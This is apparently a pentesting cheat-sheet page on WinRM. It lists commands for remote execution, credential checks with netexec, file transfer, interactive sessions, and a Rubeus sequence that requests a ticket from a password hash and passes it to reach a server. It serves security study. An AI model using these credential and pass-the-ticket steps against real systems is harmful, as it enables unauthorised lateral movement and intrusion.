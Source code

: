 ```powershell
```

### <mark style="color:yellow;">Windows Remote Management - WinRM</mark>

WinRM is Microsofts version of  [WS-Management (Web Services-Management)](https://learn.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) protocol. A standard protocol for managing software and hardware remotely on port 5985 http and 5986 https.

#### Remote commands

```powershell
# Run command remotely
Invoke-Command -ComputerName srv02 -ScriptBlock { hostname;whoami }

# Using winrs
winrs -r:srv02 "powershell -c whoami;hostname"
winrs /remote:srv02 /username:john /password:pass123 "powershell -c whoami;hostname"

# Use -credential
$username = "ZENCORP\john"
$password = "pass123"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)

Invoke-Command -ComputerName 172.20.0.52 -Credential $credential -ScriptBlock { whoami; hostname }
```

#### From windows

```powershell
# Netexec check
netexec winrm 10.129.229.244 -u john -p pass123

# Copy files | 1. Create variable
$sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential

# Copy files | 2. ToSession
Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\joe\Desktop\Sample.txt' -Destination 'C:\Users\john\Desktop\test.txt' -Verbose

# Copy files | 3. FromSession
Copy-Item -FromSession $sessionSRV02 -Path 'C:\Users\john\Desktop\Sample.txt' -Destination 'C:\Users\joe\Desktop\test.txt' -Verbose

# Interactive shell
Enter-PSSession $sessionSRV02
```

Using hashes and tickets with WinRM

```powershell
# Forge a ticket
.\Rubeus.exe asktgt /user:james /rc4:32323DS033D176ABAAF6BEAA0AA681400 /nowrap

# Create sacrificial process
.\Rubeus.exe createnetonly /program:powershell.exe /show

# Pass the ticket
.\Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9h...SNIP...

# Connect to target
Enter-PSSession SRV02.inlanefreight.local -Authentication Negotiate
```
